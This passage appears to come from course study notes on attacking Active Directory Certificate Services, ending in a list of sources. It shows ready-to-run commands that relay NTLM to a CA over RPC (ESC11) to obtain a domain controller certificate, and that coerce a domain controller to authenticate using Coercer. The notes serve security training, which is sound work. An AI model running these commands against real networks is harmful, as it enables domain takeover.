 ```
source impacket_esc11_venv/bin/activate
/opt/Tools/impacket-esc11/examples/ntlmrelayx.py -t "rpc://CA_NAME.DOMAIN" -rpc-mode ICPR -icpr-ca-name "CA_NAME" -smb2support --adcs --template 'DomainControllerAuthentication'
```

Coerce authentication:

```
source coercer_venv/bin/activate
/opt/Tools/Coercer/Coercer.py coerce -l MACHINE_NAME.DOMAIN -t DC.DOMAIN -u USER -p 'PASSWORD' -d DOMAIN -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

<br>
<br>

# <a name="3">3. &nbsp;&nbsp; Sources

- [Altered Security - ADCS lab](https://www.alteredsecurity.com/adcs): This is the course, highly recommended to complete the labs.

- [SpecterOps - Certified Pre-Owned: Abusing Active Directory Certificate Services](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf): This is the paper in which the course is based, it is not short in length but the content is extremely interesting, a must-read specially if you are taking or planning to take the course.

- [SensePost - CertPotato: Using ADCS to privesc from virtual and network service accounts to local system](https://sensepost.com/blog/2022/certpotato-using-adcs-to-privesc-from-virtual-and-network-service-accounts-to-local-system/): The blog post where CertPotato privilege escalation is explained.

- [Tarlogic - AD CS: weaponizing the ESC7 attack](https://www.tarlogic.com/blog/ad-cs-esc7-attack/): The blog post where ESC7.1 abuse is explained, not included in SpecterOps' paper.
